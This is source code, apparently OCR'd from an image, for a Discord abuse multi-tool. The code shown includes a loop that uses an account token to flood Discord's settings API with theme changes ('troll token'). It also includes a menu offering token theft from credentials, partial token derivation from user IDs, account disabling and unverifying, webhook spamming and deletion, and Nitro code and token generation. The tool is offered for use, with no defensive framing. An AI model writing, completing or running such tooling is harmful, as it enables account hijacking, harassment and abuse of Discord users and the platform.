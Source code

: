     amount = int(input('Amount: '))
    print()
    modes = cycle(["light", "dark"])
    for i in range(amount):
      print(f'Token has been trolled [{i}]')
      time.sleep(0.12)
      setting = {'theme': next(modes)}
      requests.patch("https://discord.com/api/v8/users/@me/settings", headers=headers, json=setting)
    input('\nFinished Trolling\n\nPress [Enter] key to go back to Main Menu.')
    tool()
def tool():
  os.system('cls; clear')
  print(f'''
				       \u001b[38;5;111m╔═╗╦╔═╦ ╦╦═╗╦ ╦   ╔╦╗╦ ╦╦ ╔╦╗╦╔╦╗╔═╗╔═╗╦
				       \u001b[38;5;159m║ ║╠╩╗║ ║╠╦╝║ ║   ║║║║ ║║  ║ ║ ║ ║ ║║ ║║
				       \u001b[38;5;195m╚═╝╩ ╩╚═╝╩╚═╚═╝   ╩ ╩╚═╝╩═╝╩ ╩ ╩ ╚═╝╚═╝╩═╝\u001b[38;5;26m
			 [+]═══════════════════════════════[+]════════════════════════════════[+]
			  ║ \u001b[38;5;27m[1] - Token From Email;Pass     ║ \u001b[38;5;27m[7] - Change Hypesquad House     ║
			  ║ \u001b[38;5;26m[2] - Troll Token / Cycle       ║ \u001b[38;5;26m[8] - Spam Given Webhook         ║
			  ║ \u001b[38;5;27m[3] - Token Information         ║ \u001b[38;5;27m[9] - Delete Given Webhook       ║
		          ║ \u001b[38;5;27m[4] - Half Token From UserID    ║ \u001b[38;5;27m[10] - Generate Nitro Codes      ║
			  ║ \u001b[38;5;27m[5] - Unverify Account Token    ║ \u001b[38;5;27m[11] - Generate Tokens           ║
		          ║ \u001b[38;5;26m[6] - Disable Account Token     ║ \u001b[38;5;26m[12] - Back To Main Menu.        ║
			 [+]═══════════════════════════════[+]════════════════════════════════[+]
  ''')
  choice = int(input("\u001b[38;5;231m$> "))
  if choice == 1:
    tokenfetcher()
  elif choice == 2:
    trolltoken()
  elif choice == 3:
    tokeninfo()
  elif choice == 4:
    tokenfromuserid()
  elif choice == 5:
    unverifytoken()
  elif choice == 6:
    bantoken()
  elif choice == 7:
    hypesquad()
  elif choice == 8:
    spammer()
    print('\nPress [Enter] key to go back to Main Menu.')
    input()
    tool()
  elif choice == 9:
    deleter()
    print('\nPress [Enter] key to go back to Main Menu.')
    input()
    tool()
  elif choice == 10:
    nitrogen()
  elif choice == 11:
    tokengen()
  elif choice == 12:
    mainmenu()
  else:
    print("\nInvalid Choice - Please Try Again...")